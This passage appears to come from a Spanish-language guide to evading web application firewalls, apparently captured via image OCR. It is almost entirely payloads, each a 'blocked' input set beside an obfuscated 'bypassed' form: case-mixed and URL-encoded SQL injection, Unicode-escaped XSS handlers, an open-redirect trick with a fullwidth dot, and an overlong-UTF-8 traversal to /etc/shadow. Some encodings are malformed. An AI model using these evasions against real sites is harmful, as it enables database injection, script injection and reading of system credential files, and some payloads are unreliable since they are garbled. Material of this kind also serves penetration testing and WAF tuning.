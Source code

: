 **Bloqueado por WAF:**

```bash
UniOn(SeLeCt 1,2,3,4,5,6,7,8,9,10)
```

**Técnica omitida:**

```bash
UniOn%28SeLeCt+1%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%29
```

**Ejemplo en URL:**

> https://example.com/page.php?id=1%252f%252a*/UNION%252f%252a /SELECT

### 3. Técnica Unicode

Los caracteres ASCII en codificación Unicode nos brindan excelentes variantes para evitar WAF. Codifique toda o parte de la carga útil para obtener resultados.

**Solicitud básica:**

```bash
<marquee onstart=prompt()>
```

**Ofuscado:**

```bash
<marquee onstart=\u0070r\u06f\u006dpt()>
```

**Bloqueado por WAF:**

```bash
/?redir=http://google.com
```

**Técnica omitida:**

```bash
/?redir=http://google。com (Unicode alternative)
```

**Bloqueado por WAF:**

```bash
<marquee loop=1 onfinish=alert()>x
```

**Técnica omitida:**

```bash
＜marquee loop＝1 onfinish＝alert︵1)>x (Unicode alternative).
```

**Solicitud básica:**

> ../../etc/shadow

**Ofuscado:**

```bash
%C0AE%C0AE%C0AF%C0AE%C0AE%C0AFetc%C0AFshadow
```
